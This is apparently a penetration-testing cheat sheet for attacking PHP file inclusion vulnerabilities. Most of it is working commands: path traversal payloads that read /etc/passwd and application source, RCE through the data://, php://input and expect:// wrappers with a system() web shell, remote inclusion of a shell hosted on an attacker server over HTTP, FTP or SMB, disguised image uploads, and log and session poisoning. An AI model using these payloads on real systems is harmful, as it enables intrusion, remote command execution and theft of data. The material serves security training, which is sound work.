 Here is a concise guide explaining the provided commands for exploiting File Inclusion vulnerabilities.

### 📂 Path Traversal & File Disclosure

Path traversal uses `../` to access files outside the intended directory. The goal is to read sensitive files.

  * **Basic Payloads:**

    ```shell
    # Read a standard Linux user file
    ../../../etc/passwd

    # Filter bypass by adding extra slashes or dots
    ..//..//..//etc/passwd
    ....//....//....//etc/passwd

    # Filter bypass by prepending a non-existent directory
    non_existing_directory/../../../etc/passwd/./././././
    ```

      * `../` (`%2e%2e%2f` in URL encoding) moves up one directory. You use it to escape the webroot and access system files.

  * **Reading PHP Source Code:**

    ```shell
    # Use php://filter to Base64-encode a file's source code before it's rendered
    php://filter/read=convert.base64-encode/resource=config

    # Decode the Base64 output to view the source
    echo "<base_64_encoding>" | base64 -d
    ```

  * **Discovery:**

    ```shell
    # Use ffuf to discover potentially vulnerable files
    ffuf -w /path/to/seclists/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
    ```

-----

### 💣 RCE via PHP Wrappers

These techniques turn file inclusion into Remote Code Execution (RCE) by executing code.

  * **Recon:**

    ```shell
    # Read php.ini to check for weak configurations like `allow_url_include` or `expect` extension
    curl "http://.../index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
    echo '...' | base64 -d | grep 'allow_url_include\|expect'
    ```

  * **`data://` Wrapper:** Executes code directly from the URL.

    ```shell
    # The Base64 payload decodes to '<?php system($_GET["cmd"]); ?>'
    echo '<?php system($_GET["cmd"]); ?>' | base64

    # Execute 'id' and 'ls -l'
    curl -s 'http://.../index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id'
    curl -s 'http://.../index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=ls+l'
    ```

  * **`php://input` Wrapper:** Executes code sent in the body of a POST request.

    ```shell
    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://.../index.php?language=php://input&cmd=id"
    ```

  * **`expect://` Wrapper:** Executes commands directly if the `expect` extension is enabled.

    ```shell
    curl -s "http://.../index.php?language=expect://id"
    ```

-----

### 🌍 Remote File Inclusion (RFI)

RFI includes and executes a file from an attacker-controlled server. This requires `allow_url_include = On`.

1.  **Create and Host Shell:**

    ```shell
    # Create a PHP shell file
    echo '<?php system($_GET["cmd"]); ?>' > shell.php

    # Host it on a web server
    sudo python3 -m http.server 80
    ```

2.  **Trigger Inclusion:**

    ```shell
    # Make the victim server fetch and execute your shell via HTTP
    curl 'http://<VICTIM_IP>/index.php?language=http://<YOUR_IP>/shell.php&cmd=id'
    ```

3.  **Alternative Protocols:**

    ```shell
    # Host and include via FTP
    sudo python -m pyftpdlib -p 21
    curl 'http://<VICTIM_IP>/index.php?language=ftp://user:pass@<YOUR_IP>/shell.php&cmd=id'

    # Host and include via SMB
    impacket-smbserver -smb2support share $(pwd)
    # Payload in URL: \\<YOUR_IP>\share\shell.php
    ```

-----

### 🎯 LFI to RCE via File Upload & Log Poisoning

If you can write a file to the server (via upload or logs), you can include it to get RCE.

  * **File Upload Method:**

    ```shell
    # Create a fake image or zip containing a PHP payload
    echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
    zip shell.jpg shell.php && mv shell.phar shell.jpg # Using PHAR wrapper

    # Upload the file, then include it via LFI to execute the payload
    curl 'http://.../index.php?language=./profile_images/shell.gif&cmd=ls'
    ```

  * **Log Poisoning:** Inject a PHP payload into server logs, then include the log file.

    1.  **Inject Payload:** Make a request where the User-Agent (or another logged field) is your PHP shell.
        ```shell
        # Craft a file with the malicious header
        echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
        # Make the request to get the header into the logs
        curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
        ```
    2.  **Include Log:** Use the LFI to execute the payload within the log file.
        ```shell
        # Execute commands by including the access log
        GET /index.php?language=/var/log/apache2/access.log&cmd=id HTTP/1.1
        ```

  * **Session Poisoning:** Similar to log poisoning, but the payload is injected into a session file.

    ```shell
    # 1. Inject payload into a session variable (done through application functionality).
    # 2. Find your session file (e.g., /var/lib/php/sessions/sess_...).
    # 3. Include the session file to execute the code.
    http://.../index.php?language=/var/lib/php/sessions/sess_...&cmd=pwd
    ```

-----

### 🤖 Automation with `ffuf`

Use `ffuf` to quickly find LFI vulnerabilities by fuzzing parameters and paths. The key is to filter out normal responses using `-fs <size>`.

  * **Fuzz Parameter Names:**
    ```shell
    ffuf -w /path/to/burp-parameter-names.txt:FUZZ -u 'http://.../index.php?FUZZ=test' -fs <size>
    ```
  * **Fuzz LFI Payloads:**
    ```shell
    ffuf -w /path/to/LFI-Jhaddix.txt:FUZZ -u 'http://.../index.php?language=FUZZ' -fs <size>
    ```
  * **Fuzz File Paths:**
    ```shell
    ffuf -w /path/to/default-web-root-directory-linux.txt:FUZZ -u 'http://.../index.php?language=../../../../FUZZ/index.php' -fs <size>
    ```
  * **Fuzz for Sensitive Files:**
    ```shell
    ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://.../index.php?language=../../../../FUZZ' -fs <size>
    ```
